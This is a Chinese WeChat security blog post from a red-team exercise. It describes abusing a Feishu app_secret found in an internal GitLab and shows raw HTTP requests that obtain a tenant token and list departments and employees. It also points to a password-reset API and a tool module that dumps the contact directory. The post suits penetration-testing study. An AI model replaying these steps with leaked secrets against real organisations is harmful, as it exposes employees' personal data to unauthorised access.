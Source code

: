 #  记一次飞书app_secret泄露的利用

原创 安全艺术 [ 安全艺术 ](javascript:void\(0\);)

**安全艺术** ![]()

微信号 AnQuanYiShu2022

功能介绍 安全培训、渗透测试欢迎来聊

____

___发表于_

收录于合集

**0x00 案例**  

hvv前的日常测试，成功打入内网，进入gitlab翻了翻，发现了feishu的app_secret：

![](https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20230714180201.png)

查看飞书官方文档，简单利用如下：1、获取tennat_access_token

  *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   * 

    
    
    POST /open-apis/auth/v3/tenant_access_token/internal HTTP/2Host: open.feishu.cnUser-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/114.0Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2Accept-Encoding: gzip, deflateUpgrade-Insecure-Requests: 1Sec-Fetch-Dest: documentSec-Fetch-Mode: navigateSec-Fetch-Site: noneSec-Fetch-User: ?1Te: trailersConnection: closeContent-Type: application/jsonContent-Length: 97  
    {    "app_id": "******",    "app_secret": "******"}

![](https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20230714180202.png)2、获取部门信息，使用1中的tenant_access_token替换Authorization中的******

  *   *   *   *   *   *   *   *   *   *   *   *   *   * 

    
    
    GET /open-apis/contact/v3/scopes HTTP/2Host: open.feishu.cnUser-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/114.0Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2Accept-Encoding: gzip, deflateUpgrade-Insecure-Requests: 1Sec-Fetch-Dest: documentSec-Fetch-Mode: navigateSec-Fetch-Site: noneAuthorization: Bearer ******Sec-Fetch-User: ?1Te: trailers  
    

![](https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20230714180203.png)

3、根据部门id获取部门员工信息

  *   *   *   *   *   *   *   *   *   *   *   *   *   * 

    
    
    GET /open-apis/contact/v3/users/find_by_department?department_id=****** HTTP/2Host: open.feishu.cnUser-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/114.0Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2Accept-Encoding: gzip, deflateUpgrade-Insecure-Requests: 1Sec-Fetch-Dest: documentSec-Fetch-Mode: navigateSec-Fetch-Site: noneAuthorization: Bearer ******Sec-Fetch-User: ?1Te: trailers  
    

![](https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20230714180204.png)

4、更多玩法https://open.feishu.cn/document/server-
docs/admin-v1/password/reset![](https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20230714180205.png)可惜本次获取的app_secret权限不足……

 ** **0x01 工具****

将飞书的app_secret和小伙伴沟通了下，然后飞书的利用模块就上线了，简单介绍下吧

使用`use
feishu`选择模块，注意红色方框里的说明![](https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20230714180206.png)设置认证信息后执行![](https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20230714180208.png)导出通信录，不提供部门id的话会获取所有的授权访问部门信息，如果能确定部门权限为全部门，请手动赋值部门id为0，不然获取到的用户信息可能不全

![](https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20230714180209.png)

![](https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20230714180211.png)

![](https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20230714180212.png)

工具地址：https://github.com/fasnow/idebug

目前已集成企业微信和飞书的利用，后续会集成更多利用模块，欢迎star持续关注哈

预览时标签不可点

微信扫一扫  
关注该公众号

[知道了](javascript:;)

微信扫一扫  
使用小程序

****

[取消](javascript:void\(0\);) [允许](javascript:void\(0\);)

****

[取消](javascript:void\(0\);) [允许](javascript:void\(0\);)

： ， 。   视频 小程序 赞 ，轻点两下取消赞 在看 ，轻点两下取消在看

